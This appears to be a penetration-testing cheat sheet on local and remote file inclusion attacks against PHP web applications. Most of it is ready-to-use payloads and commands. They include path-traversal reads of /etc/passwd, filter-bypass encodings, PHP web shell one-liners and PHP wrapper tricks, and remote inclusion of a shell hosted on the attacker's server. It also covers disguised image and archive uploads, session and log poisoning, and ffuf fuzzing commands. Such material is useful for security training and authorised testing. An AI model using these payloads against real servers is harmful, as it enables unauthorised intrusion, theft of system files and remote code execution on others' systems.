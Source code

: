 ## Local File Inclusion

| **Command**                                                                                       | **Description**                                           |
| ------------------------------------------------------------------------------------------------- | --------------------------------------------------------- |
| **Basic LFI**                                                                                     |                                                           |
| `/index.php?language=/etc/passwd`                                                                 | Basic LFI                                                 |
| `/index.php?language=../../../../etc/passwd`                                                      | LFI with path traversal                                   |
| `/index.php?language=/../../../etc/passwd`                                                        | LFI with name prefix                                      |
| `/index.php?language=./languages/../../../../etc/passwd`                                          | LFI with approved path                                    |
| **LFI Bypasses**                                                                                  |                                                           |
| `/index.php?language=....//....//....//....//etc/passwd`                                          | Bypass basic path traversal filter                        |
| `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`          | Bypass filters with URL encoding                          |
| `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) |
| `/index.php?language=../../../../etc/passwd%00`                                                   | Bypass appended extension with null byte (obsolete)       |
| `/index.php?language=php://filter/read=convert.base64-encode/resource=config`                     | Read PHP with base64 filter                               |

## Remote Code Execution

| **Command**                                                                                                                 | **Description**                       |
| --------------------------------------------------------------------------------------------------------------------------- | ------------------------------------- |
| **PHP Wrappers**                                                                                                            |                                       |
| `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`                    | RCE with data wrapper                 |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper                |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`                                                        | RCE with expect wrapper               |
| **RFI**                                                                                                                     |                                       |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>`                              | Host web shell                        |
| `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`                                                     | Include remote PHP web shell          |
| **LFI + Upload**                                                                                                            |                                       |
| `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`                                                                     | Create malicious image                |
| `/index.php?language=./profile_images/shell.gif&cmd=id`                                                                     | RCE with malicious uploaded image     |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`                                              | Create malicious zip archive 'as jpg' |
| `/index.php?language=zip://shell.zip%23shell.php&cmd=id`                                                                    | RCE with malicious uploaded zip       |
| `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`                                                         | Create malicious phar 'as jpg'        |
| `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`                                                  | RCE with malicious uploaded phar      |
| **Log Poisoning**                                                                                                           |                                       |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`                                                 | Read PHP session parameters           |
| `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`                                               | Poison PHP session with web shell     |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`                                          | RCE through poisoned PHP session      |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'`                                         | Poison server log                     |
| `/index.php?language=/var/log/apache2/access.log&cmd=id`                                                                    | RCE through poisoned PHP session      |

## Misc

|**Command**|**Description**|
|---|---|
|`ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287`|Fuzz page parameters|
|`ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`|Fuzz LFI payloads|
|`ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287`|Fuzz webroot path|
|`ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287`|Fuzz server configurations|
|[LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)||
|[LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)||
|[Webroot path wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)||
|[Webroot path wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)||
|[Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)||
|[Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)||

## File Inclusion Functions

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|Yes|Yes|Yes|
|`require()`/`require_once()`|Yes|Yes|No|
|`file_get_contents()`|Yes|No|Yes|
|`fopen()`/`file()`|Yes|No|No|
|**NodeJS**||||
|`fs.readFile()`|Yes|No|No|
|`fs.sendFile()`|Yes|No|No|
|`res.render()`|Yes|Yes|No|
|**Java**||||
|`include`|Yes|No|No|
|`import`|Yes|Yes|Yes|
|**.NET**||||
|`@Html.Partial()`|Yes|No|No|
|`@Html.RemotePartial()`|Yes|No|Yes|
|`Response.WriteFile()`|Yes|No|No|
|`include`|Yes|Yes|Yes|
### Most Popular 25 Params for FUZZing
```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```
